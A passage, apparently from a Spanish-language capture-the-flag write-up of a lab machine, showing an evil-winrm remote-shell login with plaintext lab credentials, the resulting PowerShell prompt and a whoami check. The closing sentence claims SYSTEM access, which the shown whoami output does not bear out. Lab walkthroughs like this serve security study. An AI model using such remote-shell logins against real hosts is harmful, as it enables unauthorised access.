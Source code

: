 ```bash
❯ evil-winrm -i 10.10.10.152 -u 'kamiyo' -p 'k4miyo123$!'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\kamiyo\Documents> whoami
netmon\kamiyo
*Evil-WinRM* PS C:\Users\kamiyo\Documents>
```

Ya nos encontramos dentro de la máquina como `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).
